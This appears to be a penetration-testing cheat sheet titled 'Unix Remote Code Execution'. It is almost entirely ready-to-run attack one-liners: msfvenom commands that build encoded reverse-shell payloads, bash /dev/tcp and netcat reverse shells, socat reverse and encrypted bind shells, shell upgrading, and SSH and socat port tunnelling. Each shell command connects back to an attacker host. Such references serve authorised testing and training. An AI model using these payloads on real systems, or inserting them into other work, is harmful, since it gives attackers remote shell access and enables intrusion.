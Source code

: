 # Unix Remote Code Execution

## MSFvenom

<a href='https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md' target="blank">Reverse Shell Cheat Sheet</a>

<a href='https://infinitelogins.com/2020/01/25/msfvenom-reverse-shell-payload-cheatsheet/' target="blank">MSFVenom Reverse Shell Payload Cheatsheet</a>

=== "Shell File"

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f elf > shell.elf
	```

=== "Java Code"

	``` bash
	msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
	```

=== "Shell Code"

	``` bash
	msfvenom -p linux/x86/shell_reverse_tcp LHOST=<ip> LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "<badchars>"
	```

=== "Encoders"

	``` bash
	msfvenom  --list encoders
	```

## Reverse Shell using bash

``` bash
bash -c '0<&60-;exec 60<>/dev/tcp/<LHOST>/<LPORT>;sh <&60 >&60 2>&60' 2> /dev/null
```

``` bash
bash -c 'sh -i >& /dev/tcp/<LHOST>/<LPORT> 0>&1'
```

## Netcat Reverse Shell

Kali machine

``` bash
sudo nc -nlvp 443
```

Unix machine

``` bash
nc -nv 192.168.11.130 443 -e cmd.exe
```

``` bash
mkfifo /tmp/p; nc <LHOST> <LPORT> 0</tmp/p | /bin/sh > /tmp/p 2>&1; rm /tmp/p
```

## Socat Reverse Shell

Kali machine

``` bash
socat -d -d TCP4-LISTEN:443 STDOUT
```

Unix machine

``` bash
socat TCP4:192.168.11.130:443 EXEC:/bin/sh
```

## Socat Encrypted Bind Shell

Create credential

``` bash
openssl req -newkey rsa:2048 -nodes -keyout bind_shell.key -x509 -days 999 -out bind_shell.crt
cat bind_shell.key bind_shell.crt > bind_shell.pem
```

Unix machine

``` bash
socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/sh
```

Kali machine

``` bash
sudo socat OPENSSL:192.168.11.130:443,verify=0
```

## Upgrade shell

``` bash
/usr/bin/python -c "import pty; pty.spawn('/bin/bash')"
export TERM=xterm
```

^Z

``` bash
stty raw -echo; fg
```

## <a href='https://www.ssh.com/ssh/tunneling/example' target="blank">Port Tunneling</a>

### Local Forwarding

``` bash
ssh -L 127.0.0.1:80:intra.example.com:80 kali@$myip
```

### Remote Forwarding

### ssh

``` bash
ssh -R $myip:8080:127.0.0.1:8080 kali@$myip
```

### socat

Redirect all port 80 conenctions to ip 202.54.1.5

``` bash
socat TCP-LISTEN:80,fork TCP:202.54.1.5:80
```
